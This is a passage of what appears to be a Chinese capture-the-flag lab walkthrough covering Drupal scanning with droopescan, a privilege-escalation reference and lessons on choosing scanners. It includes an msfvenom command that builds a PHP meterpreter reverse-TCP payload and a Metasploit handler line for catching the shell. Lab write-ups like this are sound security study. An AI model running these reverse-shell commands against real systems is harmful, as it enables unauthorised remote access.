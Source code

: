 handler -H 10.10.14.7 -P 1234 -p php/meterpreter_reverse_tcp

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-05/4.PNG)

## 提权
参考[该文章](https://whale3070.github.io/training/2019/02/07/x/)进行提权



---
`msfvenom -p php/meterpreter/reverse_tcp LHOST="10.10.14.17" LPORT=7766 -f raw -o shell.exe`

## 总结
google "IIS vesions"，进行windows操作系统的识别

github下载droopescan，对drupal进行扫描。

? 如何识别cms的漏洞。
当遇到一个陌生的cms时，可以先在github上搜索cms对应的扫描器，而不是自己手动通过服务版本识别，再找exp，逐个确认是否有已知漏洞。这样效率会很低。

？为什么要使用droopescan
扫描器都是基于插件或者是特征库的，你不能用nessus扫描web漏洞，appscan扫描系统漏洞。选择合适的扫描器。

？如何自动下载python程序所需的依赖
`pip install -r requirements.txt`

